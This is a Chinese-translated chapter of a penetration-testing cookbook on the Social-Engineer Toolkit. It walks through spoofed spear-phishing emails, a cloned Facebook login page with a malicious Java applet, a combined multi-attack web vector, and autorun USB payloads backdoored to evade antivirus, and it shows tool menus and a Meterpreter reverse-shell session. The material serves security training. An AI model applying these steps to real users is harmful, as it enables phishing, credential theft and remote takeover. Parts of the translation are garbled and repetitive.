

# 第 10 章社会工程师工具包

在本章中，我们将介绍：

*   社会工程师工具包（SET）入门
*   使用 SET-config 文件
*   鱼叉式钓鱼攻击向量
*   网站攻击向量
*   多攻击 web 方法
*   感染性媒介发生器

# 导言

社会工程是一种操纵人们去做他们不想做的事情的行为。基于网络的社会工程场景旨在诱捕用户进行可能导致机密信息被盗或某些恶意活动的活动。黑客中社会工程迅速发展的原因是很难破坏平台的安全性，但诱骗该平台的用户进行无意的恶意活动要容易得多。例如，为了窃取某人的密码而破坏 Gmail 的安全性是很困难的，但是很容易创建一个社会工程场景，在这个场景中，受害者可以通过发送一个虚假的登录/网络钓鱼页面来欺骗他/她的登录信息。

社会工程师工具包就是为了执行这种欺骗活动而设计的。就像我们对现有软件和操作系统的攻击和漏洞一样，SET 是人类为了破坏自己有意识的安全而进行的一种通用攻击。这是一个官方工具包，可在[www.social-engineer.org](http://www.social-engineer.org)上获得，它是带有回溯 5 的默认安装。在本章中，我们将分析此工具的各个方面，以及它如何为 Metasploit 框架添加更多功能。我们将主要关注创建攻击向量和管理作为 SET 核心的配置文件。因此，让我们深入了解社会工程的世界。

# 社会工程师工具包入门（套）

让我们开始介绍 SET，我们将讨论不同平台上的 SET。

## 准备好了吗

SET 可从其官方网站[www.social-engineer.com](http://www.social-engineer.com)为不同平台下载。它既有通过浏览器运行的 GUI 版本，也有可以从终端执行的命令行版本。它预装在 BackTrack 中，这将是本章讨论的平台。

## 怎么做。。。

要在回溯时启动 SET，请启动终端窗口并通过以下路径：

```
root@bt:~# cd /pentest/exploits/set
root@bt:/pentest/exploits/set# ./set
Copyright 2012, The Social-Engineer Toolkit (SET)
All rights reserved.
Select from the menu:
1) Social-Engineering Attacks
2) Fast-Track Penetration Testing
3) Third Party Modules
4) Update the Metasploit Framework
5) Update the Social-Engineer Toolkit
6) Help, Credits, and About
99) Exit the Social-Engineer Toolkit 
```

如果您是第一次使用 SET，您可以更新工具包以获得最新的模块并修复已知的 bug。要开始更新过程，我们将传递 `svn update`命令。工具包一旦更新，就可以使用了。

导航到**应用程序****回溯****开发工具****社会工程工具包****SET web**即可访问 SET 的 GUI 版本。

## 它是如何工作的。。。

Social Engineering Toolkit 是一个基于 Python 的自动化工具，它为我们创建了一个菜单驱动的应用程序。更快的执行速度和 Python 的多功能性使它成为开发诸如 SET 之类的模块化工具的首选语言。它还使工具包与 web 服务器的集成变得容易。任何开源 HTTP 服务器都可以用来访问 SET 的浏览器版本。在使用 SET 时，Apache 被认为是首选服务器。

# 使用设置的配置文件

在本配方中，我们将仔细查看 SET config 文件，该文件包含工具箱使用的不同参数的默认值。默认配置适用于大多数攻击，但在某些情况下，您必须根据场景和要求修改设置。让我们看看配置文件中有哪些配置设置可用。

## 准备好了吗

要启动配置文件，请移动到配置并打开 `set_config`文件。

```
root@bt:/pentest/exploits/set# nano config/set_config 
```

启动配置文件时将附带一些介绍性说明，如以下屏幕截图所示：


## 怎么做。。。

让我们看看哪些配置设置可供我们使用。

```
# DEFINE THE PATH TO METASPLOIT HERE, FOR EXAMPLE /pentest/exploits/framework3
METASPLOIT_PATH=/pentest/exploits/framework3 
```

第一个配置设置与 Metasploit 安装目录相关。SET 需要 Metasploit 才能正常工作，因为它从框架中获取有效负载和漏洞。

```
# SPECIFY WHAT INTERFACE YOU WANT ETTERCAP TO LISTEN ON, IF NOTHING WILL DEFAULT
# EXAMPLE: ETTERCAP_INTERFACE=wlan0
ETTERCAP_INTERFACE=eth0
#
# ETTERCAP HOME DIRECTORY (NEEDED FOR DNS_SPOOF)
ETTERCAP_PATH=/usr/share/ettercap
Ettercap is a multipurpose sniffer for switched LAN. Ettercap section can be used to perform LAN attacks like DNS poisoning, spoofing etc. The above SET setting can be used to either set ettercap ON of OFF depending upon the usability. # SENDMAIL ON OR OFF FOR SPOOFING EMAIL ADDRESSES
Ettercap is a multipurpose sniffer for switched LAN. Ettercap section can be used to perform LAN attacks like DNS poisoning, spoofing etc. The above SET setting can be used to either set ettercap ON of OFF depending upon the usability. # SENDMAIL ON OR OFF FOR SPOOFING EMAIL ADDRESSES
SENDMAIL=OFF 
```

`sendmail`电子邮件服务器主要用于电子邮件欺骗。仅当目标的电子邮件服务器未实现反向查找时，此攻击才会起作用。默认情况下，其值设置为 `OFF`。

以下设置显示了 SET 中使用最广泛的攻击向量之一。此配置将允许您使用您的姓名或任何假名对恶意 Java 小程序进行签名，然后可使用此配置执行基于浏览器的 Java 小程序感染攻击。

```
# CREATE SELF-SIGNED JAVA APPLETS AND SPOOF PUBLISHER NOTE THIS REQUIRES YOU TO
# INSTALL ---> JAVA 6 JDK, BT4 OR UBUNTU USERS: apt-get install openjdk-6-jdk
# IF THIS IS NOT INSTALLED IT WILL NOT WORK. CAN ALSO DO apt-get install sun-java6-jdk
SELF_SIGNED_APPLET=OFF 
```

我们将在稍后的配方中详细讨论这个攻击向量。该攻击向量还需要在系统上安装 JDK。让我们将其值设置为 `ON`，因为我们将详细讨论此攻击：

```
SELF_SIGNED_APPLET=ON
# AUTODETECTION OF IP ADDRESS INTERFACE UTILIZING GOOGLE, SET THIS ON IF YOU WANT
# SET TO AUTODETECT YOUR INTERFACE
AUTO_DETECT=ON 
```

SET 使用 `AUTO_DETECT`标志自动发现网络设置。如果您使用 NAT/端口转发，它将启用 SET 来检测您的 IP 地址，并允许您连接到外部 internet。

以下设置用于设置 Apache web 服务器以执行基于 web 的攻击向量。为了获得更好的攻击性能，最好将其设置为 `ON`：

```
# USE APACHE INSTEAD OF STANDARD PYTHON WEB SERVERS, THIS WILL INCREASE SPEED OF
# THE ATTACK VECTOR
APACHE_SERVER=OFF
#
# PATH TO THE APACHE WEBROOT
APACHE_DIRECTORY=/var/www 
```

以下设置用于在执行 web 攻击时设置 SSL 证书。SET 的 `WEBATTACK_SSL`设置报告了几个错误和问题。因此，建议保留此标志 `OFF:`

```
# TURN ON SSL CERTIFICATES FOR SET SECURE COMMUNICATIONS THROUGH WEB_ATTACK VECTOR
WEBATTACK_SSL=OFF 
```

以下设置可用于为 web 攻击生成自签名证书，但会出现一条警告消息，提示“不受信任的证书”。因此，建议明智地使用此选项，以避免提醒目标用户：

```
# PATH TO THE PEM FILE TO UTILIZE CERTIFICATES WITH THE WEB ATTACK VECTOR (REQUIRED)
# YOU CAN CREATE YOUR OWN UTILIZING SET, JUST TURN ON SELF_SIGNED_CERT
# IF YOUR USING THIS FLAG, ENSURE OPENSSL IS INSTALLED!
#
SELF_SIGNED_CERT=OFF 
```

以下设置用于在执行攻击后启用或禁用 Metasploit 侦听器：

```
# DISABLES AUTOMATIC LISTENER - TURN THIS OFF IF YOU DON'T WANT A METASPLOIT LISTENER IN THE BACKGROUND.
AUTOMATIC_LISTENER=ON 
```

以下配置将允许您将 SET 作为独立工具包使用，而不使用 Metasploit 功能，但始终建议将 Metasploit 与 SET 一起使用，以提高渗透测试性能。

```
# THIS WILL DISABLE THE FUNCTIONALITY IF METASPLOIT IS NOT INSTALLED AND YOU JUST WANT TO USE SETOOLKIT OR RATTE FOR PAYLOADS
# OR THE OTHER ATTACK VECTORS.
METASPLOIT_MODE=ON 
```

以下是 SET 可用的一些重要配置设置。正确了解配置文件对于完全控制 Social Engineer 工具包至关重要。

## 它是如何工作的。。。

SET config 文件是工具包的核心，因为它包含 SET 在执行各种攻击向量时将选择的默认值。错误配置的集合文件可能会导致操作过程中出现错误，因此必须了解配置文件中定义的详细信息，才能获得最佳结果。*如何操作*部分清楚地反映了我们理解和管理配置文件的容易程度。

# 鱼叉式钓鱼攻击向量

鱼叉式钓鱼攻击向量是一种用于向目标/特定用户发送恶意邮件的电子邮件攻击场景。为了欺骗您自己的电子邮件地址，您需要一个 `sendmail`服务器。将配置设置更改为 `SENDMAIL=ON`。如果您的机器上没有安装 `sendmail`，则可以通过输入以下命令下载：

```
root@bt:~# apt-get install sendmail
Reading package lists... Done 
```

## 准备好了吗

在进行网络钓鱼攻击之前，我们必须了解电子邮件系统的工作原理。

收件人电子邮件服务器，为了减轻这些类型的攻击，部署灰色列表、SPF 记录验证、RBL 验证和内容验证。这些验证过程确保特定电子邮件从与其域相同的电子邮件服务器到达。例如，如果伪造的电子邮件地址`<[richyrich@gmail.com](mailto:richyrich@gmail.com)>`来自 IP `202.145.34.23`，它将被标记为恶意，因为该 IP 地址不属于 Gmail。因此，为了绕过这些漏洞，攻击者应确保 RBL/SURL 列表中不存在服务器 IP。由于 spear 网络钓鱼攻击严重依赖于用户感知，攻击者应该对正在发送的内容进行侦察，并确保内容看起来尽可能合法。

Spear 网络钓鱼攻击分为两种类型：基于 web 的内容和基于负载的内容。

在前面的章节中，我们已经看到了如何创建有效载荷，但是由于大多数电子邮件系统不允许可执行文件，我们应该考虑使用嵌入到电子邮件的 HTML 内容中的不同类型的有效载荷；例如，Java 小程序、Flash、PDF 或 MS Word/Excel 等。

## 怎么做。。。

矛式网络钓鱼模块有三种不同的攻击载体供我们使用。让我们逐一分析。

```
1) Perform a Mass Email Attack
2) Create a FileFormat Payload
3) Create a Social-Engineering Template
99) Return to Main Menu 
```

通过选项 `1`将启动我们的邮件群发攻击。攻击向量从选择有效载荷开始。您可以从可用的 Metasploit 漏洞攻击模块列表中选择任何漏洞。然后，系统将提示我们选择一个可以连接回攻击者的处理程序。这些选项将包括设置 vnc 服务器或执行有效负载并启动命令行，等等。

接下来的几个步骤将启动 `sendmail`服务器，为恶意文件格式设置模板，并选择单个或群发邮件攻击：



最后，您将被提示选择一个已知的邮件服务，如 Gmail 和 Yahoo，或者使用您自己的服务器：

```
1\. Use a gmail Account for your email attack.
2\. Use your own server or open relay
set:phishing>1
set:phishing> From address (ex: moo@example.com):bigmoney@gmail.com
set:phishing> Flag this message/s as high priority? [yes|no]:y 
```

设置自己的服务器不是很可靠，因为大多数邮件服务都会进行反向查找，以确保电子邮件是从与地址名相同的域名生成的。

让我们分析另一种攻击向量的鱼叉式钓鱼。创建文件格式有效载荷是另一种攻击向量，在该向量中，我们可以生成具有已知漏洞的文件格式，并通过电子邮件发送它来攻击目标。最好使用基于 MS Word 的漏洞，因为它们很难检测出是否是恶意的，因此可以通过电子邮件将其作为附件发送：

```
set:phishing> Setup a listener [yes|no]:y
[-] ***
[-] * WARNING: Database support has been disabled
[-] *** 
```

最后，系统将提示我们是否要设置侦听器。它将启动 Metasploit 侦听器，并等待用户打开恶意文件并连接回攻击系统。

电子邮件攻击的成功与否取决于我们针对的电子邮件客户端。因此，对这种攻击向量进行正确的分析是非常必要的。

## 它是如何工作的。。。

正如前面所讨论的，鱼叉式钓鱼攻击向量是针对特定用户的社会工程攻击向量。从攻击机器向目标用户发送电子邮件。电子邮件将包含恶意附件，该附件将利用目标计算机上的已知漏洞进行攻击，并向攻击者提供外壳连接。SET 使整个过程自动化。社会工程在这里扮演的主要角色是建立一个对目标来说完全合法的场景，并愚弄目标下载恶意文件并执行它。

# 网站攻击向量

设置“网络攻击”向量是利用多个基于网络的攻击来危害目标受害者的独特方式。它是目前最流行的集合攻击向量。它的工作原理类似于浏览器自动 wn，其中可以向目标浏览器发送多个（或特定）攻击。它具有以下攻击向量：

```
1\. The Java Applet Attack Method
2\. The Metasploit Browser Exploit Method
3\. Credential Harvester Attack Method
4\. Tabnabbing Attack Method
5\. Man Left in the Middle Attack Method
6\. Web Jacking Attack Method
7\. Multi-Attack Web Method
8\. Return to the previous menu 
```

在这里，我们将讨论最流行的攻击向量，java applet 攻击方法。让我们看看如何使用 SET 执行此攻击。

## 准备好了吗

要从 Java 小程序攻击方法开始，我们必须选择第一个选项。然后在下一步中，我们将被提示选择网页设置。我们可以选择自定义模板或克隆完整的 URL。让我们看看克隆将如何帮助我们执行攻击。

## 怎么做。。。

目标用户必须访问笔测试仪决定克隆的网站。因此，pen 测试人员应该理解，相对于钓鱼网站，克隆的网站不应该偏离实际的网站功能。

1.  从克隆选项开始，我们必须决定要克隆的 URL。让我们克隆 Facebook 登录页面并继续：

    ```
    1\. Web Templates
    2\. Site Cloner
    3\. Custom Import
    4\. Return to the main menu
    Enter number (1-4): 2
    SET supports both HTTP and HTTPS
    Example: http://www.thisisafakesite.com
    Enter the url to clone: http://www.facebook.com
    [*] Cloning the website: https://login.facebook.com/login.php
    [*] This could take a little bit... 
    ```

2.  一旦我们完成了克隆部分，我们将被提示选择一个有效负载以及一个可以扔到目标机器上的后门。
3.  完成这些步骤后，SET web 服务器将与 msf 一起启动。Msf 将管理处理程序，该处理程序将在有效负载落入目标机器后接收反向连接。
4.  You can find your cloned template along with jar at `/pentest/exploits/set/src/web_clone/site/template`. Now once the target user visits the cloned website (hosted on a fake domain), an applet message will pop up that will appear as a completely safe alert message:

    

现在，一旦目标用户单击**允许**，恶意小程序就会被执行，并允许执行有效负载。Metasploit 侦听器将从目标机器接收回连接，因此，我们将有一个活动会话：

```
[*] Sending stage (748544 bytes) to 192.168.56.103
[*] Meterpreter session 1 opened (192.168.56.103:443 ->
Thu Sep 09 10:06:57 -0400 2010
msf exploit(handler) > sessions -i 1
[*] Starting interaction with 1...
meterpreter > shell
Process 2988 created.
Channel 1 created.
Microsoft Windows XP [Version 6.1]
(C) Copyright 1985-2001 Microsoft Corp.
C:\Documents and Settings\Administrator\Desktop> 
```

同样，我们也可以执行其他攻击。您可以看到 SET 如何轻松地为我们创建攻击向量，并为我们提供对场景的完全控制。SET 最好的一点是，它可以让您有充分的机会在任何时候实现自己的修改和更改。

## 它是如何工作的。。。

Java 小程序感染是一种流行的 Java 小程序漏洞，允许在受保护的沙箱环境之外执行小程序。未签名或不安全的小程序在对系统资源访问受限的沙盒环境中执行。一旦允许恶意小程序在警告消息后执行，它将获得目标计算机上的完全资源访问权限，因为现在它位于沙盒环境之外。这允许小程序执行 Java 漏洞并允许远程代码执行。类似地，其他基于 web 的攻击向量使用浏览器将攻击转移到目标系统。社会工程再一次在于创造一个愚弄用户的场景的艺术。攻击者可以创建隐藏在 `href`标记下的恶意链接，或者可以使用假签名对小程序进行签名，以使其看起来完全合法。集合模板是设计攻击的良好来源。

# 多攻击 web 方法

多攻击 web 方法通过将多个攻击组合为一个攻击，进一步将 web 攻击提升到下一个级别。这种攻击方法允许我们在单一格式下利用多个漏洞。目标用户打开文件或 URL 后，除非报告成功的攻击，否则每次攻击都会逐个抛出。SET 自动化了在单个 web 攻击场景下使用棍棒攻击不同攻击的过程。让我们继续前进，看看如何做到这一点。

## 怎么做。。。

多重攻击 web 方法开始时与其他基于 web 的攻击类似。我们首先选择一个可以导入或克隆的模板。区别在于下一步，我们可以选择可以添加到 web 攻击中的各种漏洞。

选择要使用的攻击：

```
1\. The Java Applet Attack Method (OFF)
2\. The Metasploit Browser Exploit Method (OFF)
3\. Credential Harvester Attack Method (OFF)
4\. Tabnabbing Attack Method (OFF)
5\. Man Left in the Middle Attack Method (OFF)
6\. Web Jacking Attack Method (OFF)
7\. Use them all - A.K.A. 'Tactical Nuke'
8\. I'm finished and want proceed with the attack.
9\. Return to main menu.
Enter your choice one at a time (hit 8 when finished selecting): 
```

我们可以选择不同的攻击，一旦我们完成，我们可以通过 `8`并最终将选择的攻击组合到一个向量下。最后，我们将被提示选择有效负载和后门编码器。

## 它是如何工作的。。。

一旦选择了不同的攻击，将它们设置为有效负载，并构建一个需要立即进行社会工程的恶意链接。我们将不得不建立一个模板，看起来完全合法的目标用户，并迫使他访问恶意链接。一旦受害者单击链接，除非成功发起攻击，否则将逐个尝试不同的攻击。一旦发现并利用漏洞，有效负载将提供到 Metasploit 侦听器的反向连接。

# 感染性媒介发生器

传染媒介生成器是一种相对简单的攻击向量。SET 将创建基于 Metasploit 的负载，为您设置侦听器，并生成需要刻录或写入 DVD/USB 驱动器的文件夹。一旦插入，如果启用自动运行，代码将自动执行并控制机器。

## 怎么做。。。

该攻击向量基于产生恶意可执行文件的简单原理，然后用可用编码器编码，以绕过反病毒保护。

```
Name: Description:
1\. Windows Shell Reverse_TCP Spawn a command shell on victim and send back to attacker.
2\. Windows Reverse_TCP Meterpreter Spawn a meterpreter shell on victim and send back to attacker.
3\. Windows Reverse_TCP VNC DLL Spawn a VNC server on victim and send back to attacker.
4\. Windows Bind Shell Execute payload and create an accepting port on remote system.
5\. Windows Bind Shell X64 Windows x64 Command Shell, Bind TCP Inline
6\. Windows Shell Reverse_TCP X64 Windows X64 Command Shell, Reverse TCP Inline
7\. Windows Meterpreter Reverse_TCP X64 Connect back to the attacker (Windows x64), Meterpreter
8\. Windows Meterpreter Egress Buster Spawn a meterpreter shell and find a port home via multiple ports
9\. Import your own executable Specify a path for your own executable
Enter choice (hit enter for default):
Below is a list of encodings to try and bypass AV.
Select one of the below, 'backdoored executable' is typically the best.
1\. avoid_utf8_tolower (Normal)
2\. shikata_ga_nai (Very Good)
3\. alpha_mixed (Normal)
4\. alpha_upper (Normal)
5\. call4_dword_xor (Normal)
6\. countdown (Normal)
7\. fnstenv_mov (Normal)
8\. jmp_call_additive (Normal)
9\. nonalpha (Normal)
10\. nonupper (Normal)
11\. unicode_mixed (Normal)
12\. unicode_upper (Normal)
13\. alpha2 (Normal)
14\. No Encoding (None)
15\. Multi-Encoder (Excellent)
16\. Backdoored Executable (BEST)
Enter your choice (enter for default):
[-] Enter the PORT of the listener (enter for default):
[-] Backdooring a legit executable to bypass Anti-Virus. Wait a few seconds...
[-] Backdoor completed successfully. Payload is now hidden within a legit executable.
[*] Your attack has been created in the SET home directory folder "autorun"
[*] Copy the contents of the folder to a CD/DVD/USB to autorun.
[*] The payload can be found in the SET home directory.
[*] Do you want to start the listener now? yes or no: yes
[*] Please wait while the Metasploit listener is loaded... 
```

## 它是如何工作的。。。

生成编码的恶意文件后，Metasploit 侦听器开始等待反向连接。此攻击的唯一限制是，可移动媒体必须启用自动运行，否则需要手动触发。

在目标用户在防火墙后面的情况下，这种类型的攻击向量可能是有用的。大多数防病毒程序，现在是一天，禁用自动运行，这反过来使这种类型的攻击无效。pen tester 以及基于自动运行的攻击也应确保随媒体提供后门合法可执行文件/PDF。这将确保受害者始终执行一个有效负载。